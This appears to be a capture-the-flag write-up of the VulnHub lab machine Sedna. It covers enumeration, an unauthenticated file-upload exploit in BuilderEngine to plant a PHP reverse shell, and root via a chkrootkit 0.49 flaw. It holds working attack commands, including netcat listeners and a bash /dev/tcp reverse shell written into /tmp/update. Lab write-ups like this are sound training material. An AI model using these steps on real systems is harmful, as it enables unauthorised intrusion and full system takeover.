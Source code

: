 ```yaml
---
layout: post
title: PenLog - Sedna by VulnHub
categories: [VulnHub, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [VulnHub](https://www.vulnhub.com/)\
**Difficulty:** Medium\
**Link:** [HACKFEST2016: SEDNA](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

## Enumeration

Run `netdiscover` to find the IP address of the VM:

```bash
$ netdiscover -i vmnet1
192.168.42.130  00:0c:29:9a:47:01      1      42  VMware, Inc.
```

Run full `nmap` port scan on the discovered target IP:
```bash
$ nmap -vv -Pn -sT -T4 -p- -n 192.168.42.130
```

This results in:

![nmap2](/images/posts/penlog_sedna_by_vulnhub/nmap2.png)

Run `dirbuster` against the target's open http port 80 using the _/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt_ wordlist and
options _Be Recursive_ switched off, and _File extension_ set to _html, php, txt_.

Note **/licence.txt** in the result; navigate to this in the browser and notice the line:

    Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.

Continuing through the `DirBuster` results, note **/finder.html**, which, when navigated to in the browser,
has the title: **elFinder 2.0**.

Searching Google, there is a **BuilderEngine** project on GitHub at [tripflex/builder-engine]() with the
description: _"Open source CMS HTML 5 website builder."_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit enginebuilder
...
```

![searchsploit](/images/posts/penlog_sedna_by_vulnhub/searchsploit_enginebuilder.png)

Download the non-Metasploit PoC with EDB-ID [40390](https://www.exploit-db.com/exploits/40390):

```bash
$ searchsploit -m 40390
```

### 40390 Description

40390 reports EngineBuilder v3.5.0 as having a Remote Code Execution vulnerability; reading the PoC, it describes the ability to perform Arbitrary File Upload via unauthenticated, unrestricted access to a bundled jQuery File Upload plugin _/themes/dashboard/assets/plugins/jquery-file-upload_.

With this file upload capability, upload a reverse PHP shell--the website is serving PHP--to establish a low-privilege _user_ shell.

## User Shell

Copy 40390, changing the extension from _.php_ to _.html_:

```bash
$ cp 40390.{php,html}
```

Update the PoC's action string to instead include the target IP address:

```bash
$ diff 40390.html 40390.php
22c22
< <form method="post" action="http://192.168.42.130/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
---
> <form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
27c27
< </html>
---
> </html>
\ No newline at end of file
```

Copy _/usr/share/webshells/php/php-reverse-shell.php_ from Kali's bundled webshells and update the connect back IP address/port to be the attacking IP address/port:

![php-webshell](/images/posts/penlog_sedna_by_vulnhub/php_webshell.png)

Serve the _html_ version of 40390 locally and upload the modified _php-reverse-shell.php_:

![40390-upload](/images/posts/penlog_sedna_by_vulnhub/40390_upload.png)

As noted in the documentation, 40390 advises that the uploaded shell will be accessible via _/files_:

![files-list](/images/posts/penlog_sedna_by_vulnhub/files_list.png)

Start an `nc` lister on the port that was added to the modified _php-reverse-shell.php_:

```bash
$ nc -vnlp 4444
```

Click the _php-reverse-shell.php_ link in the browser and establish a reverse shell connection:

![user-shell](/images/posts/penlog_sedna_by_vulnhub/user_shell.png)
_(**Note:** "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_sedna_by_vulnhub/user_flag.png)

Lastly, upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

(After spending an hour looking at some other installed, vulnerable software, and attempting _Dirty Cow_ for this vulnerable _Linux Kernel v3.13.0-32_, I discovered a vector via `cron`.)

Upload and execute custom `cronmon.sh`:

```bash
$ cat cronmon.sh
#!/bin/bash

#IFS=$'\n'

old_process=$(ps -eo command)  # sort by command (-o)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process")
    sleep .2
    old_process=$new_process
done
```

After a while, notice `chkrootkit` in the output, running as **root**:

![chkrootkit-cron-root](/images/posts/penlog_sedna_by_vulnhub/chkrootkit_cron_root.png)

Notice path _/etc/chkrootkit_ on target (non-standard) and version string in _/etc/chkrootkit/README_:

```bash
$ cat /etc/chkrootkit/README
...
 09/30/2009 - Version 0.49  new tests: Mac OS X OSX.RSPlug.A.  Enhanced
                            tests: suspicious sniffer logs, suspicious
                            PHP files, shell history file anomalies.
                            Bug fixes in chkdirs.c, chkproc.c and
                            chkutmp.c.
```

Search for a local privilege escalation with `searchsploit` and download the non-Metasploit PoC **33899**:

![33899-chkrootkit](/images/posts/penlog_sedna_by_vulnhub/33899_chkrootkit.png)
_(**Note:** "ss" in the above is a bash alias for `searchsploit`.)_

### 33899 Description

33899 reports chkrootkit v0.49 as having a vulnerable function that will execute files specified in a variable due to unquoted variable assignment. The PoC goes on to describe _"Steps to reproduce"_:
- Put an executable file named 'update' in /tmp
- Run chkrootkit (as uid 0)

## Root Shell

Follow the instructions and put the file with a bash reverse shell to attacking machine:

```bash
$ echo "bash -i >& /dev/tcp/192.168.42.129/4445 0>&1" > /tmp/update
$ chmod +x /tmp/update
```

Start `nc` listener on the attacking machine, specifying the expected reverse shell port (4445 in this case):

```bash
$ nc -vnlp 4445
```

Wait for `cron` to execute `chkrootkit` as root; reading _/etc/crontab_, the root _/etc/cron.hourly_ will run every **17 min**:

![root-cron-hourly](/images/posts/penlog_sedna_by_vulnhub/root_cron_hourly.png)

After _/tmp/update_ is executed as _root_ via the `cron` call to `chkrootkit`, get the root _flag.txt_ via the established root shell:

![root-shell](/images/posts/penlog_sedna_by_vulnhub/root_shell.png)
